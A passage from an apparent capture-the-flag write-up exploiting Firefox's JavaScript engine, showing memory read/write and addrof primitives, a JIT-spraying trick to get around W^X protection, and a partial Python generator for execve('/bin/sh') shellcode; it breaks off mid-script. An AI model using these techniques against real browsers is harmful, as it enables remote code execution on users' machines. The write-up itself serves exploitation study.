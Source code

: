 ```js
    for (var i = 0; i < data.length; i++) {
        typedArr[i] = Number(data[i]);
    }
    objArr.oob(OA, bk);
}
```
We pass an array of bytes and each is written to the array (i.e. the raw memory) sequentially. We also restore the original backing store pointer, in hopes of keeping stability.


```js
function addrof(o) {
    objArr[0] = o;
    let addr = ftoi(floatArr.oob(FA));
    return arr2int(read(addr, 8), false);
}
```
Finally, our `addrof` primitive - we place our object into our `objArr`, then read the elements pointer of the `objArr` and read 8 bytes (the object pointer) from the elements array.

## W^X bypass and RCE

In Chromium exploitation, this stage would now be simple. We would create a WASM object, creating an RWX mapping, and modify the backing store of a typed array in order to write our shellcode into it. In Firefox, it is a little more complex - JITted and WASM pages are first mapped RW, while compilation is happening, then re-protected as RX.
Luckily, the doar-e article linked at the start of this writeup details a method to obtain arbritrary shellcode execution, 'Bring-Your-Own-Gadgets'. Essentially, one can create a function of the form
```js
function jitter() {
	const A = 0xCCCCCCCCCCCCCCCC; // Must be in float form to get around JSValue encoding
}
```
After running this enough times (roughly 5000 in my experimentation), IonMonkey will trigger, creating optimised machine code of the form
```
[ ... ]
mov r11, 0xCCCCCCCCCCCCCCCC
mov [rbp+0x40], r11
```
We may then slightly modify the function pointer of the JITted `JSFunction`, to jump 'into our constant'. From here, we build up a chain of instructions, connected by a relative jump into the *next* constant. As the jump instruction is 2 bytes, we must restrict our instructions to a maximum of 6 bytes. For this, I wrote a small algorithm using Python to generate a function to be pasted into our JS exploit.

```python
from pwn import *
import struct
context.arch = "amd64"

instructions = [
"mov ebx, 0x0068732f",
"shl rbx, 32",
"mov edx, 0x6e69622f",
"add rbx, rdx",
"push rbx",
"xor eax, eax",
"mov al, 0x3b",
"mov rdi, rsp",
"xor edx, edx",
"syscall"
]

# Marker constant
```